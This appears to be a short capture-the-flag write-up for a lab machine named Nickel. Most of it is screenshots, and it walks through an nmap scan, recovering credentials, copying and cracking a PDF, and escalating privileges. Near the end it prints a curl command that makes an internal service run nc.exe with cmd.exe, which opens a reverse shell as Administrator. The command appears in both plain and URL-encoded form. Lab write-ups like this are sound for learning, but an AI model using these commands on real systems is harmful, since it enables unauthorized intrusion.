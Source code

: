 # Nickel

Starting off with an nmap scan

![](<../../.gitbook/assets/image (3) (1) (1).png>)

Going to port 80

![](<../../.gitbook/assets/image (4) (1) (1).png>)



Intercepting the commands using burp suite we can identify what's going on

We could use burp to send a post request too but I made use of curl

![](<../../.gitbook/assets/image (7) (1) (1) (1).png>)



Seems like it was base 64 encoded and can use the password to get initial foothold

![](<../../.gitbook/assets/image (16) (1).png>)

### Priv Esc

Going to the ftp directory

![](<../../.gitbook/assets/image (9) (1) (1).png>)

I transferred the file to my attacker machine using

`scp ariah@192.168.79.99:C:/ftp/Infrastructure.pdf .`

``

`The file was encrypted`

![Cracked the password using pdfcrack](<../../.gitbook/assets/image (6) (1) (1) (1).png>)

``

Taking a look at the pdf

![
](<../../.gitbook/assets/image (5) (1) (1) (1).png>)

An internal service seems to be running as authority

![](<../../.gitbook/assets/image (14) (1) (1).png>)



We can make use of nc.exe by running it as a root user and get a shell as Administrator



So i ran

C:\Users\ariah\Desktop>curl [http://nickel/?cmd](http://nickel/?cmd) /c C:\Users\ariah\Desktop\nc.exe 127.0.0.1 4444 -e cmd.exe\


With url encoding

curl [http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5CDesktop%5Cnc.exe%20127.0.0.1%204444%20-e%20cmd.exe](http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5CDesktop%5Cnc.exe%20127.0.0.1%204444%20-e%20cmd.exe)

![](<../../.gitbook/assets/image (17) (1) (1).png>)

![](<../../.gitbook/assets/image (15) (1).png>)
